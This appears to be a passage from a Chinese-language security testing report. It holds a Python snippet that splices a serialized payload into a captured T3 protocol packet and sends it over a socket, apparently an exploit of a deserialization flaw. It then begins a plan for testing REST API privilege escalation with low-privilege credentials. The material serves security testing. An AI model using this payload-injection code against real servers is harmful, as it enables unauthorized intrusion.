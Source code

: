 ```python

data = sock.recv(1024)
print ( 'received "%s"' % data)

######################################以下是具体的攻击部分#####################################

# 传入一个文件名，在本例中为刚刚生成的
payloadObj = open("payload.bin",'rb').read()

# 读取 .pcap 文件
packets = rdpcap('t3.pcap')

# 然后可以通过索引访问单个数据包
# 这里获取第一个数据包（索引为 0）
origin_packet = packets[0]

# 如果数据包的负载是需要的部分，可以这样获取
payload = origin_packet[Raw].load

# 截取整个payload 的一部分，从24到155
payload_head = payload[23:155]

# 复制剩余数据包，从408到1564
payload_tail=payload[408:1564]

#重新组成payload
payload=payload_head+payloadObj+payload_tail

# 重新计算数据包大小并替换原数据包中的前四个字节
payload = "{0}{1}".format(struct.pack('!i', len(payload)), payload[4:])

print('sending payload...')
sock.send(payload)
```

![image-20230725015601524](C:\Users\Jack\Documents\MyReport\week8\image-20230725015601524.png)





## rest api 测试：

#### 模糊批量测试，使用普通用户cookie去操作所有edit api，根据返回结果来看是否存在越权

导入并解析所有rest api，然后使用不同用户的身份认证信息，测试用户是否能执行超出自己权限的操作，get请求和post请求在url中都不带任何查询参数，url中的{version}变量设置为latest，{name}变量设置为testing，post的body设置为空



测试的用户有三种，认证方式为用户名和密码，也就是在http头中加入的basic authentication

普通用户：没有rest api的访问权限
